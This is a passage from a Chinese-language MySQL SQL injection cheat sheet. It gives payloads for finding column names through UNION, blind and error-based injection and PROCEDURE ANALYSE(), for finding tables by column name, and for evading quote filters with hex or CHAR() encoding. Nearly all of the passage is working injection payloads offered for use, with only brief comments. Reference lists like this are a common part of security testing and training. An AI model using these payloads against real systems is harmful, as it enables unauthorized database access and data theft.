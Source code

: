 ### 列名

-   union 查询

    ```sql
    UNION SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name = 'tablename'
    ```

-   盲注

    ```sql
    AND SELECT SUBSTR(column_name,1,1) FROM information_schema.columns > 'A'
    ```

-   报错

    ```sql
    -- 在5.1.5版本中成功
    AND (1,2,3) = (SELECT * FROM SOME_EXISTING_TABLE UNION SELECT 1,2,3 LIMIT 1)
    -- MySQL 5.1版本修复了
    AND(SELECT COUNT(*) FROM (SELECT 1 UNION SELECT null UNION SELECT !1)x GROUP BY CONCAT((SELECT column_name FROM information_schema.columns LIMIT 1),FLOOR(RAND(0)*2))) (@:=1)||@ GROUP BY CONCAT((SELECT column_name FROM information_schema.columns LIMIT 1),!@) HAVING @||MIN(@:=0); AND ExtractValue(1, CONCAT(0x5c, (SELECT column_name FROM information_schema.columns LIMIT 1)));
    ```

-   利用 `PROCEDURE ANALYSE()`

    ```sql
    -- 这个需要 web 展示页面有你所注入查询的一个字段
    -- 获得第一个段名
    SELECT username, permission FROM Users WHERE id = 1; 1 PROCEDURE ANALYSE()
    -- 获得第二个段名
    1 LIMIT 1,1 PROCEDURE ANALYSE()
    -- 获得第三个段名
    1 LIMIT 2,1 PROCEDURE ANALYSE()
    ```

### 根据列名查询所在的表

```sql
-- 查询字段名为 username 的表
SELECT table_name FROM information_schema.columns WHERE column_name = 'username';
-- 查询字段名中包含 username 的表
SELECT table_name FROM information_schema.columns WHERE column_name LIKE '%user%';
```

### 绕过引号限制

```sql
-- hex 编码
SELECT * FROM Users WHERE username = 0x61646D696E
-- char() 函数
SELECT * FROM Users WHERE username = CHAR(97, 100, 109, 105, 110)
```
